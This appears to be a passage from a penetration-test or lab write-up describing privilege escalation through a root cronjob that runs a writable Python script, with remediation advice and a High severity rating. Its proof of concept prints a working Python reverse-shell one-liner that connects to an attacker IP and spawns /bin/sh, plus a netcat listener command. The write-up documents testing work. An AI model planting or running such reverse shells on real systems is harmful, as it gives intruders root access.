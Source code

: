 In order to fix this vulnerability, the script used must be protected in order to ensure that no other user could tamper it. 

Further more, the cronjob should run with a specific user instead of using the root one if it is possible.

**Severity:** High

**Proof of Concept / Code Here:**

1. Using linpeas.sh we noticed : 

```
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```

![](attachments/Pasted%20image%2020220402171057.png)


2. The code inserted inside the python script was the following one : 

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.87",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

3. It allows us to wait the reverse shell session from our kali machine using : `nc - lnvp 22` 

![](attachments/Pasted%20image%2020220402174921.png)


**Proof Screenshot Here:**
